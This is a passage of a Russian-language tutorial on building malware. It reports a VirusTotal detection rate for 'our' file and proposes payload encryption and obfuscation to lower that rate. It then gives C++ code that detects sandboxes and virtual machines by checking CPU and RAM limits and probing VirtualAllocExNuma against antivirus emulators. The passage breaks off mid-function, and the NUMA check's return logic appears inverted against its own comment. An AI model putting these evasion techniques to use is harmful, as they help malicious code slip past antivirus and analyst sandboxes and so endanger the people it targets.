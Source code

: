 [https://www.virustotal.com/gui/file/4ff68b6ca99638342b9b316439594c21520e66feca36c2447e3cc75ad3d70f46/detection](https://www.virustotal.com/gui/file/4ff68b6ca99638342b9b316439594c21520e66feca36c2447e3cc75ad3d70f46/detection)    

**Итак, 6 из 67 антивирусных движков обнаружили наш файл как вредоносный.**

Для лучшего результата мы можем добавить [шифрование](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) полезной нагрузки с ключом или [обфусцировать функции](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html), или же комбинировать обе эти техники.   

Что дальше? Вредоносное ПО часто использует различные методы для определения среды, в которой оно выполняется, и выполнения различных действий в зависимости от ситуации.   

Например, мы можем определить виртуализированную среду. Песочницы и виртуальные машины аналитиков обычно не могут на 100% точно эмулировать реальную среду выполнения. Сегодня типичная пользовательская машина имеет процессор с как минимум 2 ядрами и минимум 2 ГБ оперативной памяти. Таким образом, наше вредоносное ПО может проверить, соответствует ли среда этим ограничениям:   

```cpp
BOOL checkResources() {
  SYSTEM_INFO s;
  MEMORYSTATUSEX ms;
  DWORD procNum;
  DWORD ram;

  // check number of processors
  GetSystemInfo(&s);
  procNum = s.dwNumberOfProcessors;
  if (procNum < 2) return false;

  // check RAM
  ms.dwLength = sizeof(ms);
  GlobalMemoryStatusEx(&ms);
  ram = ms.ullTotalPhys / 1024 / 1024 / 1024;
  if (ram < 2) return false;

  return true;
}
```

Также мы вызовем API-функцию `VirtualAllocExNuma()`. Это альтернативная версия `VirtualAllocEx()`, предназначенная для использования на системах с более чем одним физическим процессором:    

```cpp
typedef LPVOID (WINAPI * pVirtualAllocExNuma) (
  HANDLE         hProcess,
  LPVOID         lpAddress,
  SIZE_T         dwSize,
  DWORD          flAllocationType,
  DWORD          flProtect,
  DWORD          nndPreferred
);

// выделение памяти работает на обычном ПК 
// но завершится с ошибкой в эмуляторах антивирусов
BOOL checkNUMA() {
  LPVOID mem = NULL;
  pVirtualAllocExNuma myVirtualAllocExNuma = 
  (pVirtualAllocExNuma)GetProcAddress(
  GetModuleHandle("kernel32.dll"), "VirtualAllocExNuma");
  mem = myVirtualAllocExNuma(GetCurrentProcess(), 
  NULL, 1000, MEM_RESERVE | MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE, 0);
  if (mem != NULL) {
    return false;
  } else {
```
